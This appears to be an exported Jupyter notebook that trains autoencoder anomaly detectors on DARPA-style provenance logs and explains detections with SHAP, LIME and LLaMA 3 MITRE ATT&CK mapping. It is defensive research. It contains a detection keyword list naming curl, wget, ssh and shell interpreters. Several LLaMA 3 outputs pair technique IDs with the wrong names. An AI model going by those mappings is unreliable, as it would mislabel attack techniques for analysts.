c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Loca

Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Sparse... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Deep SVDD... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training DAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training VAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Beta-VAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training GMVAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Attention AE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training LSTMAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Robust... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Contractive... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)

Processing: THEIA - ProcessAll
  Samples: 223415 Train | 55954 Test
    -> Training Baseline... Done. AUC: 0.9984 | nDCG: 0.8225 (DCG: 17.2215, IDCG: 20.9387)
    -> Training Sparse... Done. AUC: 0.6256 | nDCG: 0.3361 (DCG: 7.0374, IDCG: 20.9387)
    -> Training Deep SVDD... Done. AUC: 0.5898 | nDCG: 0.4562 (DCG: 9.5514, IDCG: 20.9387)
    -> Training DAE... Done. AUC: 0.9844 | nDCG: 0.5393 (DCG: 11.2922, IDCG: 20.9387)
    -> Training VAE... Done. AUC: 0.6049 | nDCG: 0.334 (DCG: 6.9937, IDCG: 20.9387)
    -> Training Beta-VAE... Done. AUC: 0.6259 | nDCG: 0.3358 (DCG: 7.0308, IDCG: 20.9387)
    -> Training GMVAE... Done. AUC: 0.9975 | nDCG: 0.7689 (DCG: 16.1004, IDCG: 20.9387)
    -> Training Attention AE... Do

In [10]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Parameterized for easy switching between models
EMBEDDING_NAME = "mpnet" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CRITICAL UPDATE] sentence-transformers/all-mpnet-base-v2 uses 768 dimensions
INPUT_DIM = 768 

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. Load the saved weights using dynamic EMBEDDING_NAME
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    weight_path = os.path.join(MODEL_SAVE_DIR, weight_filename)
    
    if not os.path.exists(weight_path):
        return None # Skip if weights don't exist
        
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for MPNET on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll
    -> Baseline Done! F1: 0.1316 | PR-AUC: 0.0534
    -> Sparse Done! F1: 0.2286 | PR-AUC: 0.0642
    -> Deep SVDD Done! F1: 0.2051 | PR-AUC: 0.0962
    -> DAE Done! F1: 0.1587 | PR-AUC: 0.0556
    -> VAE Done! F1: 0.24 | PR-AUC: 0.0701
    -> Beta-VAE Done! F1: 0.2105 | PR-AUC: 0.064
    -> GMVAE Done! F1: 0.2286 | PR-AUC: 0.0635
    -> Attention AE Done! F1: 0.0825 | PR-AUC: 0.0424
    -> LSTMAE Done! F1: 0.0952 | PR-AUC: 0.0411
    -> Robust Done! F1: 0.1111 | PR-AUC: 0.0416
    -> Contractive Done! F1: 0.2222 | PR-AUC: 0.0636

Evaluating: 5DIR - ProcessEvent
    -> Baseline Done! F1: 0.0909 | PR-AUC: 0.0285
    -> Sparse Done! F1: 0.0988 | PR-AUC: 0.0247
    -> Deep SVDD Done! F1: 0.06 | PR-AUC: 0.0148
    -> DAE Done! F1: 0.0976 | PR-AUC: 0.0244
    -> VAE Done! F1: 0.0879 | PR-AUC: 0.0224
    -> Beta-VAE Done! F1: 0.1194 | PR-AUC: 0.0292
   

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0
    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Baseline Done! F1: 0.7177 | PR-AUC: 0.6491
    -> Sparse Done! F1: 0.0062 | PR-AUC: 0.0024
    -> Deep SVDD Done! F1: 0.2647 | PR-AUC: 0.0847
    -> DAE Done! F1: 0.1889 | PR-AUC: 0.0874
    -> VAE Done! F1: 0.0056 | PR-AUC: 0.0022
    -> Beta-VAE Done! F1: 0.0061 | PR-AUC: 0.0023
    -> GMVAE Done! F1: 0.5837 | PR-AUC: 0.4797
    -> Attention AE Done! F1: 0.0066 | PR-AUC: 0.0025
    -> LSTMAE Done! F1: 0.6138 | PR-AUC: 0.427
    -> Robust Done! F1: 0.617 | PR-AUC: 0.5603
    -> Contractive Done! F1: 0.0067 | PR-AUC: 0.0025

Evaluating: THEIA - ProcessEvent
    -> Baseline Done! F1: 0.6996 | PR-AUC: 0.61
    -> Sparse Done! F1: 0.053 | PR-AUC: 0.0139
    -> Deep SVDD Done! F1: 0.1121 | PR-AUC: 0.0496
    -> DAE Done! F1: 0.2714 | PR-AUC: 0.1094
    -> VAE Done! F1: 0.0109 | PR-AUC: 0.0032
    -> Beta-VAE Done! F1: 0.0107 | PR-AUC: 0.0031
    -> GMVAE Done! F1: 0.7831 | PR-AUC: 0.6883
    -> Attention AE Done! F1: 0.0118 | PR-AUC: 0.0039
    -> LSTMAE Done! F1: 0.6744 | PR-AUC: 0

#### XAI Integrations and MITRE ATT&CK mapping

In [5]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [MPNET UPDATE] 
EMBEDDER_NAME = "sentence-transformers/all-mpnet-base-v2" 
INPUT_DIM = 768  # Critical: MPNet-base uses 768 dimensions!

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "whoami": "T1033 - System Owner/User Discovery",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "ssh": "T1021.004 - Remote Services: SSH",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 80": "T1071.001 - Application Layer Protocol: Web Protocols",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell"
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return f"[Error] Local API returned status {response.status_code}"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER 
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} on {self.device.upper()}...")
        
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name)
        self.embedder = AutoModel.from_pretrained(embedder_name).to(self.device)
        self.embedder.eval()
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        batch_size = 4 
        all_errors = []
        ac_device = 'cuda' if 'cuda' in self.device else 'cpu'
        
        for i in range(0, len(text_list), batch_size):
            batch_texts = text_list[i:i+batch_size]
            
            inputs = self.tokenizer(
                batch_texts, 
                padding=True, 
                truncation=True, 
                max_length=128, 
                return_tensors="pt"
            ).to(self.device)

            with torch.amp.autocast(ac_device):
                with torch.inference_mode():
                    outputs = self.embedder(**inputs)
                    
                    # Attention-weighted Mean Pooling
                    token_embeddings = outputs.last_hidden_state
                    attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
                    
                    sum_embeddings = torch.sum(token_embeddings * attention_mask, dim=1)
                    sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
                    embeddings = sum_embeddings / sum_mask
                    
                    reconstructed = self.ae_model(embeddings)
                    errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                    all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_mpnet", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    # CPU-First safe loading
    state_dict = torch.load(weight_path, map_location='cpu')
    ae_model.load_state_dict(state_dict)
    ae_model = ae_model.to(DEVICE)
    print(f"✓ Loaded weights safely: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5)
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    
                    # [FIXED] Removed the `weight > 0` filter
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: {weight:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN SHAP 
            # ==========================================
            print("\nCalculating SHAP values (Optimized speed...)")
            shap_values = shap_explainer(raw_apt_log, max_evals=100)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                
                # [FIXED] Sorting by absolute value to see biggest drivers (positive or negative)
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    
                    # [FIXED] Removed the `score > 0` filter
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: {score:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded.")

Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights safely: saved_weights_mpnet\theia_ProcessAll_Baseline.pth
Loading sentence-transformers/all-mpnet-base-v2 on CUDA...


Loading weights: 100%|██████████| 199/199 [00:00<00:00, 5685.82it/s]
MPNetModel LOAD REPORT from: sentence-transformers/all-mpnet-base-v2
Key                     | Status     |  | 
------------------------+------------+--+-
embeddings.position_ids | UNEXPECTED |  | 

Notes:
- UNEXPECTED	:can be ignored when loading from different task/architecture; not ok if you expect identical arch.



Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...
Top LIME Anomaly Drivers:
 -> 'process' (LIME Weight: -0.0002)
    [!] LLaMA-3 MITRE MAPPING: T1190 - Remote File Copy
 -> 'event' (LIME Weight: -0.0001)
    [!] LLaMA-3 MITRE MAPPING: T1003.001 - Execution**

(Note: The token "event" is indicative of process creation or modification, which is a common indicator of code injection or payload execution. The presence of multiple executables and network connections suggests a potential APT attack attempting to execute malicious code.)
 -> 'mprotect' (LIME Weight: -0.0001)
    [!] LLaMA-3 MITRE MAPPING: T1562.004 - Lateral Movement via System Calls
 -> 'network' (LIME Weight: -0.0001)
    

### 7. `jinaai/jina-embeddings-v3`

#### Training and saving `.pth` files

In [8]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated directories for Jina Embeddings v3
BASE_DIR = "final_train_test_split_jina_v3"
RESULTS_FILE = "results_all_autoencoders_jina_v3.csv"
MODEL_SAVE_DIR = "saved_weights_jina_v3"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
# [CRITICAL] jinaai/jina-embeddings-v3 uses 1024 dimensions
INPUT_DIM = 1024    

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
